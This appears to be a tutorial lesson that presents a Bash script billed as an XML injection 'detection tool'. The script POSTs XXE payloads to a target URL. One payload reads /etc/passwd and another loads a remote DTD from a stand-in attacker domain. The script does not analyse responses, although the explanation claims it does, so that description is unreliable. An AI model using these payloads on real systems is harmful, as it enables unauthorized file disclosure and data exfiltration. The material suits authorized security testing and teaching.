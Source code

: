 ### Lesson 18: Creating XML Injection Detection Tools with Bash

XML Injection vulnerabilities can lead to data manipulation, information disclosure, or denial of service in web applications that parse XML input. In this lesson, we'll develop a simple XML Injection detection tool using Bash scripting:

#### Use Case: XML Injection Detection Tool

Let's create a Bash script that scans a website for potential XML Injection vulnerabilities by injecting malicious XML payloads and analyzing the responses.

**Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform XML Injection detection
detect_xml_injection() {
    echo "Detecting XML Injection vulnerabilities..."
    # Define XML Injection payloads
    payloads=("<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE test [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><test>&xxe;</test>" "<!DOCTYPE test [<!ENTITY % remote SYSTEM \"http://attacker-controlled-domain.com/evil.dtd\"> %remote;]><test>&file;</test>")

    # Iterate over payloads and inject them into vulnerable parameters
    for payload in "${payloads[@]}"; do
        echo "Testing payload: $payload"
        curl -s -d "param=$payload" -X POST "$1"
    done
}

# Main function
main() {
    echo "XML Injection Detection Tool"
    echo "----------------------------"

    # Validate input
    if [ $# -ne 1 ]; then
        echo "Usage: $0 <target_url>"
        exit 1
    fi

    # Perform XML Injection detection
    detect_xml_injection "$1"
}

# Call main function with target URL as argument
main "$@"
```

**Explanation:**
- The script defines a function `detect_xml_injection` to perform XML Injection detection.
- It defines a list of XML Injection payloads representing malicious XML entities or external entity references.
- The `main` function serves as the entry point, validating input and invoking the XML Injection detection function.
- When executed with a target URL as an argument, the script injects XML Injection payloads into vulnerable parameters and analyzes the responses for potential vulnerabilities.
